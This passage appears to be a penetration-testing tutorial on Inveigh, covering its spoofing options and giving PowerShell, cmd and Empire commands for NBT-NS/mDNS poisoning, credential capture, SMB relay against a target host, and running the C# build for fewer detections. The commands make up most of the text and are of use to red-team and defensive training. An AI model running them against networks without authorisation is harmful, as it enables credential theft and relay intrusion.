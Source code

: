 * **NBNSPriority**: Sets priority for NBT-NS over other protocols
* **NBNS**: Enables/disables NBT-NS spoofing
* **NBNSTypes**: Specifies NetBIOS suffixes to respond to
* **HTTP/HTTPS**: Enables/disables HTTP/HTTPS listeners
* **SMB**: Enables/disables SMB listener

#### Viewing Captured Credentials

```powershell
# Display captured credentials
Get-Inveigh

# Export Inveigh output to a file
Get-Inveigh -Log | Out-File -FilePath C:\path\to\inveigh_output.txt
```

### Inveigh Relay Setup

Inveigh-Relay extends Inveigh's functionality to perform relay attacks:

```powershell
# Import Inveigh-Relay
Import-Module .\Inveigh-Relay.ps1

# Start Inveigh for capturing
Invoke-Inveigh -ConsoleOutput Y -NBNS Y -mDNS Y -SMB N

# In another PowerShell window, start relay
Invoke-InveighRelay -ConsoleOutput Y -Target 192.168.1.10 -Command "whoami"
```

### Inveigh.exe (C# Version)

The compiled C# version of Inveigh offers better performance and fewer detection issues:

```cmd
# Run Inveigh.exe with NBT-NS poisoning
Inveigh.exe -nbns y -nbnstype 00,03,20,1B

# Specify output file
Inveigh.exe -nbns y -fileoutput c:\temp\inveigh.txt
```

### PowerShell Empire Approach

If you're using PowerShell Empire, you can leverage its built-in modules:

```
# From an Empire agent
usemodule collection/inveigh

# Set options
set NBNS true
set ConsoleOutput true

# Execute
execute
```
